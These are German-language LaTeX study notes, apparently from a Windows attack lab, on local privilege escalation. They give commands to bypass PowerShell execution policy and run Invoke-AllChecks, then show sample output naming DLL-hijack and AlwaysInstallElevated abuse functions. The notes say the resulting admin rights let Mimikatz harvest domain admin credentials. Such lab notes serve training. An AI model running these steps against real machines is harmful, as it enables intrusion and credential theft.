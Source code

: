 \paragraph{Commands}
\begin{itemize}
    \item powershell -exec bypass
    \begin{itemize}
        \item execution policy überspringen
    \end{itemize}
    \item Import\-Module .\textbackslash Privesc.psd1
    \item Invoke-AllChecks
    \begin{itemize}
        \item Privilege Escalation laufen lassen
    \end{itemize}
\end{itemize}


\begin{lstlisting}[language=bash]
    ModifiablePath    : C:\Users\tmassie\AppData\Local\
            Microsoft\WindowsApps
    IdentityReference : winattacklab\tmassie
    Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
    %PATH%            : C:\Users\tmassie\AppData\Local\
             Microsoft\WindowsApps
    Name              : C:\Users\tmassie\AppData\Local\
            Microsoft\WindowsApps
    Check             : %PATH% .dll Hijacks
    AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\tmassie\AppData\Local\
        Microsoft\WindowsApps\wlbsctrl.dll'

    Check         : AlwaysInstallElevated Registry Key
    AbuseFunction : Write-UserAddMSI

    UnattendPath : C:\windows\Panther\Unattend.xml
    Name         : C:\windows\Panther\Unattend.xml
    Check        : Unattended Install Files
\end{lstlisting}

\paragraph{Kurz \& Knapp}\mbox{} \\
Den kann man brauchen um mit \textit{MSI} User zu erstellen/ als admin auszuführen (bakannte Schwachstelle). \textbf{Mit dem Key sagt man, dass wenn man dieses \textit{MSI} ausführt, es immer als Admin ausgeführt werden soll}.
$\rightarrow$ das Tool brauchen um an lokale Adminrechte zu kommen, um dann mit Mimikatz Domänen-Admin Credentials zu bekommen.

